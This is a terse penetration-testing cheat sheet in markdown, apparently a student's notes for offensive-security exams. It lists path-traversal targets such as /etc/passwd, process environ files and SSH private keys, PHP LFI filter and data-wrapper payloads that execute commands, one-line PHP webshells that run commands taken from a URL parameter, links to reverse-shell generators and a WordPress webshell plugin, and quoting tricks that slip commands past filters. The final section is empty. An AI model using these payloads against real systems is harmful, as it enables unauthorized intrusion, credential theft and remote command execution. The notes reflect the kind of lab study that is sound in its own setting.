 # Initial Access
https://github.com/swisskyrepo/PayloadsAllTheThings
## Path Traversal
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
```bash
/etc/passwd

/proc/self/cmdline
/proc/1/cwd
/proc/2/environ

/home/offsec/.ssh/id_rsa
/home/offsec/.ssh/authorized_keys

/etc/nginx/nginx.conf
/etc/nginx/modules-enabled/default.conf
/opt/apache2/conf/httpd.conf
/opt/apache/conf/httpd.conf
```
### id_sa
```bash
chmod 400 id_key
ssh -i id_key -p 2222
```
### LFI
```php
# page=...

php://filter/resource=admin.php
php://filter/convert.base64-encode/resource=admin.php

data://text/plain;base64,<base64>&cmd=ls

# EXEC
/tmp
/var/crash
/dev/shm
```
## Webshell
/usr/share/webshells
```php
<?php echo(system($_GET["cmd"])); ?>
<?php echo(shell_exec($_GET["cmd"])); ?>
<?php echo(exec($_GET["cmd"]));?>
```
Wordpress <br/>
https://github.com/p0dalirius/Wordpress-webshell-plugin
## Reverse Shell
https://www.revshells.com/
<br/>
https://tex2e.github.io/reverse-shell-generator/index.html
### Bypass
```bash
w'h'o'am'i
w"h"o"am"i
```
#### Linux
```bash
```